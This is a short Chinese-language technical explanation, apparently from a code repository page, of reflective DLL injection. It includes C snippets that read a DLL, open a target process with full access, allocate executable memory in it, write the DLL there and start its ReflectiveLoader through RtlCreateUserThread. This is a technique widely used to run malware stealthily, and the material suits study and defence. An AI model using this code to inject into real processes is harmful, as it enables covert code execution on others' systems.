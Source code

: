 ```c
// 打开目标DLL文件
hFile = CreateFileW(cpDllFile, GENERIC_READ, 0, NULL, OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL, NULL);
// 获取目标DLL文件大小
dwLength = GetFileSize(hFile, NULL);
// 在注入器中分配目标DLL文件大小的堆空间
lpBuffer = HeapAlloc(GetProcessHeap(), 0, dwLength);
// 向申请的堆空间写入DLL文件
ReadFile(hFile, lpBuffer, dwLength, &dwBytesRead, NULL);
// 获取目标进程句柄
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID);
// 调用ReflectiveLoader函数,实现目标DLL的加载至目标进程
hModule = LoadRemoteLibraryR(hProcess, lpBuffer, dwLength, NULL);
```

LoadRemoteLibraryR函数实现流程图:

![LoadRemoteLibraryR](LoadRemoteLibraryR.png)

LoadRemoteLibraryR核心代码:

```c
// 获取DLL中ReflectiveLoader函数的文件偏移地址
dwReflectiveLoaderOffset = GetReflectiveLoaderOffset(lpBuffer);
// 在目标进程申请DLL文件大小的内存空间
lpRemoteLibraryBuffer = VirtualAllocEx(hProcess, NULL, dwLength, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
// 将DLL文件写入目标进程申请的内存空间中
WriteProcessMemory(hProcess, lpRemoteLibraryBuffer, lpBuffer, dwLength, NULL);
// 获取在目标进程中DLL文件写入到的内存空间中的ReflectiveLoader函数的文件偏移
lpReflectiveLoader = (LPTHREAD_START_ROUTINE)((ULONG_PTR)lpRemoteLibraryBuffer + dwReflectiveLoaderOffset);
// 通过函数RtlCreateUserThread创建远程线程来调用ReflectiveLoader函数(因此我们还需要定义RtlCreateUserThread函数)
RtlCreateUserThread = (PRTL_CREATE_USER_THREAD)(GetProcAddress(GetModuleHandle(TEXT("ntdll")), "RtlCreateUserThread"));
RtlCreateUserThread(hProcess, NULL, 0, 0, 0, 0, lpReflectiveLoader, lpParameter, &hThread, NULL);
```
